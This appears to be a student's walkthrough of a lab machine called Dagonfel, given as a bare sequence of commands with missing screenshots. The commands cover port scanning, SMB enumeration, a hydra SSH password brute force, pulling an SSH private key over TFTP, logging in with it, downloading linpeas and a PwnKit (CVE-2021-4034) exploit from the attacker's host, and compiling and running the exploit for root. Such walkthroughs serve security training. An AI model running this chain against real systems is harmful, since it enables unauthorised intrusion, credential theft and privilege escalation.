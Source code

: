 ﻿# Dagonfel 192.168.2.24
## Andrea Zonnekus 18758119

sudo nmap -p- -sV -sT -O 192.168.2.24 -oN host

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.001.png)

smbmap -H 192.168.2.24

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.002.png)

enum4linux -a 192.168.2.24

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.003.png)

hydra -l centurion -P /usr/share/wordlists/rockyou.txt ssh://192.168.2.24 -m ssh

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.004.png)



sudo nmap -sV -sU 192.168.2.24 -oN host\_udp

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.005.png)

sudo nmap -sU -sV --script "ntp\* and (discovery or vuln) and not (dos or brute)" -p 123 192.168.2.24

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.006.png)

(system arch)

https://github.com/EnableSecurity/tftptheft

python2 thief.py -p 69 192.168.2.24

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.007.png)

ls download

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.008.png)

tftp 192.168.2.24 -c get id\_rsa

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.009.png)

sudo chmod 700 id\_rsa

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.010.png)



ssh centurion@192.168.2.24 -i id\_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.011.png)

php -S 0.0.0.0:80

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.012.png)

wget 10.8.0.106/les.sh

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.013.png)

find / -perm -u=s -type f 2>/dev/null

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.014.png)

wget 10.8.0.106/linpeas.sh

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.015.png)

./linpeas.sh

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.016.png)

<https://github.com/berdav/CVE-2021-4034>

wget 10.8.0.106/pwnkit.tar.gz

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.017.png)

tar -xvf pwnkit.tar.gz

cd CVE-2021-4034-main/

make

./ cve-2021-4034

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.018.png)

whoami

![](dagonfel_steps/Aspose.Words.d917fd4e-222e-4507-8475-49630bf72757.019.png)
